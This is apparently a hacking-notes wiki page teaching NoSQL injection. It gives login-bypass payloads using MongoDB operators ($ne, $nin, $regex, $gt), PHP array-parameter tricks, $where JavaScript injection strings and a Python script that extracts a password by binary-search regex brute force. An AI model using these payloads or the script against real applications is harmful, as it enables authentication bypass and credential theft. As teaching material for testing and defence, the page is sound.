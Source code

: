 ```yaml
---
description: >-
  NoSQL databases are a type of database, where often objects are used instead
  of SQL strings
---
```


# NoSQL Injection

While SQL Injection in the traditional sense is not possible, there are still some new opportunities for vulnerabilities that NoSQL introduces. Mainly the ability for the user to specify their own objects in a request, which may make the NoSQL database interpret the request as more than just a string.&#x20;

Often the goal is to bypass some login screen, by returning an always-true request. Sometimes you want to get more specific records or try to extract data.&#x20;

## JSON Injection

Pretty often, especially in JavaScript backends, the server accepts JSON as data for API requests. The backend expects a certain simple format, like:

```json
{
  "username": "user",
  "password": "pass",
}
```

But in reality, an attacker can make the values of `username` or `password` any JSON object. This may have interesting results, and for NoSQL, you can create an object like the following:

```json
{
  "username": "admin",
  "password": {
    "$ne": "wrong"
  }
}
```

This creates a query that asks if the password is **not equal** to "wrong", with `$ne`. If there is then a user named "admin" with a different password, it will let you through and return the record of the "admin" user, bypassing the Login screen.&#x20;

### Forcing JSON

Most websites don't use JSON by default for requests, but some may still accept JSON data if you give it some. To change the content type of your POST data, you can add a `Content-Type` header:

```http
Content-Type: application/json
```

Then simply put JSON instead of URL parameters in your body, to see if the server still accepts the request with data in that format. If this works, you can try some NoSQL Injection as seen above.&#x20;

{% code title="Before (URL parameters)" %}
```php
username=user&password=pass
```
{% endcode %}

{% code title="After (JSON)" %}
```json
{
  "username": "user",
  "password": "pass"
}
```
{% endcode %}

To quickly do this in a proxy like Burp Suite, you can install this extension to easily convert your POST data into JSON, and add the correct header as well:

{% embed url="https://portswigger.net/bappstore/db57ecbe2cb7446292a94aa6181c9278" %}
Burp Suite extension to convert the content type of a request
{% endembed %}

## Injection in URL

While this JSON conversion sometimes works, it is not always accepted by the server. However, in **PHP** and possibly other frameworks there is another way to create arbitrary objects and inject NoSQL syntax:

```php
username=admin&password[$ne]=wrong
```

This example will create the following array in PHP, and might trip up NoSQL queries:

```php
array(2) {
  ["username"]=> string(4) "admin"
  ["password"]=> array(1) {
    ["$ne"]=> string(4) "wrong"
  }
}
```

## Extracting data

### Get other data

Often in a NoSQL injection, you are returning an always-true response to get through a login screen. This will return the first true record, which is likely always the first user created. But sometimes you want to log in as the second user, or any other user.&#x20;

To return specifically that user, you can provide a unique thing about that user if you know it, like a username, while keeping the password always true.&#x20;

If you don't know anything about other users, you can also simply exclude any user you don't want with the `$nin` keyword, and an array:

{% code title="URL parameters" %}
```php
username[$nin][]=admin&username[$nin][]=other&password[$ne]=wrong
```
{% endcode %}

{% code title="JSON" %}
```json
{
  "username": {
    "$nin": ["admin", "other"]
  },
  "password": {
    "$ne": "wrong"
  }
}
```
{% endcode %}

### RegEx Boolean Brute-Force

Logging in does not regularly respond with the password for example that we made always true. This results in us being logged in, but not knowing the actual password, while it might still be useful to know this.&#x20;

A login action typically is a boolean response, resulting in a successful login, or an unsuccessful one. With the powerful NoSQL operators, we can abuse this feedback to slowly extract values from the query character by character, using `$regex`. The RegEx pattern will match if there is a password with that pattern, and fail if there is not.

This can be optimized by using [Binary Search](https://en.wikipedia.org/wiki/Binary\_search\_algorithm), an algorithm that allows you to cut in half the search space every time you ask a yes/no question. This makes finding any character in ASCII take only $$log_2(127) \approx 7$$ requests. See the following script for an example:

```python
# A function that returns True if the regex passes
def test_password(regex):
    data = {
        "username": "admin",
        "password": {
            "$regex": regex
        }
    }

    r = requests.post(URL, json=data, allow_redirects=False)

    return not 'Login Failed' in r.text

# Binary Search algorithm
def search_once(test_function, prefix=""):
    min = 0
    max = 127

    while min <= max:
        mid = (min + max) // 2

        if test_function(fr'^{re.escape(prefix)}[\x{mid:02x}-\x7f]'):
            min = mid + 1
        else:
            max = mid - 1

    return chr(max)

# Keep searching until whole string found
def search(test_function):
    found = ""
    while True:
        found += search_once(test_function, prefix=found)
        print(found)

        if test_function(fr'^{found}$'):
            return found

password = search(test_password)
print(password)
```

## Filter Bypass

In most examples above, I used the `$ne` operator. But there are lots more ways to achieve an always-true result. For example:

```json
"$regex": ".*"  // Regular Expression
"$exists": true  // If any record exists
"$gt": "A"  // Greater than
"$lt": "z"  // Less than
```

## $where

MongoDB is a popular NoSQL framework, but sometimes still allows for a string injection like regular SQL Injection. Sometimes your input will end up in a `$where` clause with a condition similar to the following:

```javascript
`return (this.username == '${username}' && this.password == '${password}')`
```

In the same way as SQL Injection, you can make this condition always true by injecting one of the following in the `username` field:

```javascript
' || 1==1//
' || 1==1%00
```

Another simple way to make one statement true without many special characters:

```javascript
'=='
```

For more payloads for the same idea see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#mongodb-payloads).

{% hint style="info" %}
**Note**: While it seems we are injecting into server-side JavaScript code, this language from MongoDB is very restricted and in modern versions does **not** have much use for attackers. However, in **very old** versions it might be possible to get [Remote Code Execution](https://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/) from this.&#x20;
{% endhint %}
